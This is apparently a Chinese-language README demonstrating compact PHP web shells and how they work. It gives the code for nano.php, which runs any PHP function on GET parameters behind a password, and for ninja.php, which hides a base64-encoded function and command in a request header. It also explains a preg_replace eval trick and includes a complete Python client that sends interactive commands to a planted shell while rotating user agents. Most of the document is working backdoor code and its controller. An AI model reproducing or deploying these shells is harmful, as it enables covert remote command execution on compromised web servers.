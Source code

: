 # 原理和演示

## test123.php

post数据存储到session解密后利用preg_replace()函数的漏洞

'a'eis eval()

![](assets/markdown-img-paste-20180418174645451.png)

## nano.php

```php
<?php $x=$_GET;($x[p]=='123456'?$x[f]($x[c]):y);
```

![](assets/markdown-img-paste-20180530102427143.png)

参数解释  
- p 密码可以自定义
- f 要执行的函数
- c 要执行的命令

## ninja.php

```php
<?php $h=getallheaders();$x=explode('~',base64_decode(substr($h['x'],1)));@$x[0]($x[1]);
```

参数解释  
- $h 保存所有的http请求的header信息
- $x 保存执行的函数和命令

`system~ls` `base64`后 `c3lzdGVtfmxzCg==` 任意加一个字符在加密后的字符串前面是为了配合`substr`函数

![](assets/markdown-img-paste-20180530105351444.png)

### nano.php ninja.php 使用繁琐

```python
import requests
import sys
import random
import base64

white = '\033[97m'
green = '\033[92m'
red = '\033[91m'
yellow = '\033[93m'
end = '\033[0m'
back = '\033[7;91m'
info = '\033[33m[!]\033[0m'
que = '\033[34m[?]\033[0m'
bad = '\033[31m[-]\033[0m'
good = '\033[32m[+]\033[0m'
run = '\033[97m[~]\033[0m'

if sys.version_info[0]==2:
    input = raw_input
    from urlparse import urlparse
else:
    from urllib.parse import urlparse

print ('''%s1.%s Nano
%s2.%s Ninja\n''' % (green, end, green, end))
shell = input('%s Select the shell type: ' % que)
if shell == '1':
    shell = 'nano'
    url = input('%s Enter the URL of shell: ' % que)
    passwd = input('%s Enter password: ' % que)
if shell == '2':
    shell = 'ninja'
    url = input('%s Enter the URL of shell: ' % que)
function = input('%s Enter the function to use: ' % que)
if not url.startswith('http'):
    url = 'http://' + url

user_agents = ['Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0',
'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36'
'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 OPR/43.0.2442.991']

def requester(url, payload, shell):
    headers = {
'Host' : urlparse(url).hostname,
'User-Agent' : random.choice(user_agents),
'Accept' : 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language' : 'en-US,en;q=0.5',
'Accept-Encoding' : 'deflate',
'Connection' : 'close',
'DNT' : '1',
'Connection' : 'close',
'Upgrade-Insecure-Requests' : '1'}
    if shell == 'nano':
        payload = '?f=%s&c=%s&p=%s' % (function, payload, passwd)
        print (requests.get(url + payload , headers=headers).text)
    elif shell == 'ninja':
        bases = ['T', 'w', 'F', 'v', 'Z', 'n']
        payload = random.choice(bases) + (base64.b64encode((function + '~' + payload).encode('utf-8'))).decode('utf-8')
        headers['x'] = payload
        print (requests.get(url, headers=headers).text)
while True:
    payload = input('%s>%s ' % (green, end))
    requester(url, payload, shell)

```

![](assets/markdown-img-paste-20180530110218131.png)

[参考的原文地址][41432a7c]







  [41432a7c]: https://github.com/UltimateHackers/nano "原文"
